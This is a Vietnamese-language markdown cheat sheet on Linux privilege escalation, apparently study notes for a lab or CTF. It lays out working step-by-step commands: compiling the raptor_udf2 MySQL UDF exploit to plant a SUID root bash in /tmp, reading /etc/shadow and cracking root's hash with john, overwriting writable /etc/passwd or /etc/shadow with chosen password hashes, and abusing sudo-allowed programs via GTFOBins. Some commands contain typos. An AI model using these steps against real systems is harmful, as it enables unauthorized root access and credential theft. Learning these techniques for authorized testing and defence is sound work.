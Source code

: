 # Các cách tân công leo thang đặc quyền (Privilege Escalation)
---------------
## Service Exploits (Khai thác dịch vụ
* MySQL server đang chạy với quyền root nhưng root user lại không được cấp pass. Ta có thể khai thác User Defined Functions (UDFs) để chạy command với quyền root thông qua MySQL
  - Đầu tiên ta cd đến folder của MySQL UDFs: ```cd /home/<username>/tools/mysql-udf```
  - Thực thi code xâm nhập raptor_udf2.c:

        gcc -g -c raptor_udf2.c -fPIC
        gcc -g -shared -wl, -soname, raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lv
  - Kết nối tới MySQL với quyền root (mật khẩu rỗng):
 
        mysql -u root
  - Thực thi những câu lệnh sau để MySQL shell để tạo một UDFs:
 
        use mysql;
        create table foo(line blob);
        insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
        select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
        create function do_system returns integer soname 'raptor_udf2.so';
  - Dùng hàm để copy /bin/bash với /tmp/rootbash và cấp quyền SUID

        select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
  - Thoát shell MySQL (dùng ```exit``` hoặc ```\q```) và chạy lệnh với option ```-p``` để chạy shell với đặc quyền root

        /tmp/rootbash -p
  - Nhớ xoá ```/tmp/rootbash``` và thoát khỏi root shell trước khi tiếp tục
    
        rm /tmp/rootbash
        exit
    
------------------------
## Lợi dụng readable file (/etc/shadow)
* File /etc/shadow chứa pass của user dưới dạng mã hoá và thường chỉ root user mới có thể đọc
  - Nếu file này có thể đọc bởi user khác thì ta có thể lợi dụng điều này:

        cat /etc/shadơ
  - Mỗi dòng là thông tin của một user, đoạn thứ 2 của mỗi dòng là pass của user được hash
  - Copy pass của root và nhét vào một file (VD: hash.txt)
  - Dùng ```john``` hoặc một công cụ crack pass bất kỳ để dịch hash:

        john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  - Chuyển tới root bằng pass mới thu được

        su root
-----------------------
## Lợi dụng writeable file (/etc/passwd và /etc/shadow)
* Ta có thể lợi dụng 2 file này để đổi mật khẩu của root user
  - Với file ```passwd```:

        openssl passwd <pass của bạn>
  (Câu lệnh này sẽ mã hoá pass bạn nhập vào cùng loại với pass của file ```passwd```
  - Với file ```shadow```:

        mkpasswd -m sha-512 <pass của bạn>
  (Câu lệnh này mã hoá pass của bạn bằng sha-512, cùng loại với file ```shadow```
  
------------------------
## Shell Escape Sequences (Thoát Shell tuần tự)
* Thoát SHELL:
  - Kiểm tra các chương trình user hiện tại có thể chạy

        sudo -l
  - SỬ dụng trang web [GTFOBins](https://gtffobins.github.io) và search các tên chương trình, nếu chương trình cần sudo để chạy, bạn có thể lợi dụng để leo thang đặc quyền
  - Chọn chương trình như trên và thử lấy root shell, sử dụng hướng dẫn trong [GTFOBins](https://gtffobins.github.io)
  - 
